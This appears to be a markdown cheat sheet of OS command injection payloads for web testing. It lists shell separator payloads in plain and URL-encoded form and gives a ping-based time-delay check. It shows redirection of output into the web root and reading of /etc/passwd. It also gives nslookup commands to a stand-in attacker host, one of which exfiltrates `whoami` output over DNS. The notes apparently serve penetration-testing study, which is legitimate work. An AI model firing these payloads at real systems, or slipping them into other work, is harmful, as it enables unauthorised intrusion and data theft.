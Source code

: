 ## OS command injection, simple case

Normal Command 

```bash
|ls
||ls
|ls|
||ls||
&ls
&&ls
&ls&
&&ls&&
;ls
;ls;
`ls`
$(ls)
```

With URL Encoding 

```bash
%7cls            # |ls
%7c%7cls         # ||ls
%7cls%7c         # |ls|
%7c%7cls%7c%7c   # ||ls||  
%26ls            # &ls
%26%26ls         # &&ls
%26ls%26         # &ls&
%26%26ls%26%26   # &&ls&&
%3bls            # ;ls
%3bls%3b         # ;ls;
%60ls%60         # `ls`
%0Als            # \nls
%24%28ls%29      # $(ls)
```

## Blind OS command injection with time delays

You can use an injected command that will trigger a time delay

```bash
& ping -c 10 127.0.0.1 &
```

###### Exploiting blind OS command injection using redirecting output

You can redirect the output from the injected command into a file within the web root that you can then retrieve using the browser

Try to redirect the output to a file

```bash
> /var/www/html/out.txt
```

Try to send some input to the command

```bash
< /etc/passwd
```

### Blind OS command injection with out-of-band interaction

You can use an injected command that will trigger an out-of-band network interaction with a system that you control, using OAST techniques. 

For example:

You can use burp collaborator

```bash
& nslookup kgji2ohoyw.web-attacker.com &
```

###### Exploiting blind OS command injection using out-of-band (OAST) techniques

 The out-of-band channel also provides an easy way to exfiltrate the output from injected commands: 

```bash
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

# command injection Cheat Sheet

[command-injection-payload-list 🎯(github.com)](https://github.com/payloadbox/command-injection-payload-list)
